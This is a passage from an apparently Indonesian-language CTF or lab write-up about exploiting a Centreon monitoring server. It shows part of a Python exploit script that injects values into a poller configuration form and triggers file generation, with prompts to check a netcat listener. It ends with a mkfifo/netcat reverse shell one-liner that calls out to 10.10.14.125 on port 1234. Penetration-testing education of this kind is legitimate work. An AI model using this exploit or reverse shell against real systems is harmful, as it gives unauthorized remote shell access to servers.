 ```
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,
 
 
    }
 
    send_payload = request.post(poller_configuration_page, payload_info)
    print("[+] Injecting Done, triggering the payload")
    print("[+] Check your netcat listener !")
    generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
    xml_page_data = {
        "poller": "1",
        "debug": "true",
        "generate": "true",
    }
    a= request.post(generate_xml_page, xml_page_data)
    print(a.text)
 
else:
    print("[-] Wrong credentials")
    exit()
```

![Image](img/9.jpg)

Kita berhasil melakukan echo namun terlihat ada parameter sisa yang seharusnya dibuang oleh tanda pagar tadi yang ikut ter echo yaitu -v, ini mungkin menyusahkan kedepannya.

Mari kita menyiapkan script bernama "new" untuk reverse shell pada port 1234

```
rm /tmp/s; mkfifo /tmp/s; cat /tmp/s | sh -i 2>&1 | nc 10.10.14.125 1234 > /tmp/s
```
